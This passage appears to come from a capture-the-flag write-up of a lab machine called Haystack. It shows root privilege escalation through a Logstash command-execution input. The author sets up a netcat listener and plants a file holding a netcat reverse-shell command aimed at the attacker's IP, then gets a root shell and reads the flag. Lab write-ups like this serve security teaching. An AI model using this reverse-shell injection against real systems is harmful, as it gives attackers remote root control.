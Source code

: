 {% highlight plaintext %}
root@kali:~# nc -nlvp 2222
listening on [any] 2222 ...
{% endhighlight %}

Then, on Haystack, I create the payload input file and name it `logstash_test`.

{% highlight plaintext %}
bash-4.2$ echo “Ejecutar comando : /tmp/nc -e /bin/bash 10.10.14.31 2222” > /opt/kibana/logstash_test
{% endhighlight %}

I wait for a minute (oddly, not the 10 seconds defined in input.conf) and get a connection back on my Kali listener.

{% highlight plaintext %}
root@kali:~# nc -nlvp 2222
listening on [any] 2222 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.115] 44338
whoami
root
{% endhighlight %}

I'm root. I grab the flag in the /root directory.

{% highlight plaintext %}
cat /root/root.txt
3f5f############################
{% endhighlight %}